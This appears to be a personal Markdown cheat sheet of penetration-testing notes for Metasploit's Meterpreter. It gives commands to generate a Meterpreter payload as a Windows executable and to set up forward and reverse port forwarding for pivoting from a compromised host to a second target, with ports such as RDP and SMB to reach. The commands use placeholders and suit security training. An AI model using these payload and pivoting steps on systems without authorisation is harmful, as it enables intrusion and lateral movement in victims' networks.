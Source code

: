 # Meterpreter

## Generate Payload (NO MSFvenom)
```bash
use payload/[PAYLOAD]
```
```bash
generate -f exe -o /home/kali/Desktop/[FILE.EXE]
```

## Portfwd
- /multi/manage/autoroute **NOT** **REQUIRED**

(Attacker) -> (Target1) -> (Target2)
- allows (Attacker) to reach (Target2) via meterpreter payload on (Target1)
- Local_Port = Port (Target1) is listening on
- Remote_Port = Port (Target1) is Forwarding
- Remote_Host = [IP] the port is forwarding to
- use 0.0.0.0 or 127.0.0.1:[Local_Port] from (Attacker) when trying to reach (Target2)
```bash
portfwd add -L 127.0.0.1 -l [Local_Port] -p [Remote_Port] -r [Remote_Host]
```
- Useful [Remote_Port]s
	- rdp (3389)
	- ssh (22)
	- smb (445)
	- ftp (21)

##### Portfwd (Reverse)
- Useful for connecting to (Attacker) HTTP server from (Target2)
- Attacker_Port = Port on (Attacker) that is being reached
- Local_Port = (Target1) port is Listening on
```bash
portfwd add -R -L 127.0.0.1 -l [Attacker_Port] -p [Local_Port]
```
- use (Target1) [IP] and [Local_Port] when forwarding
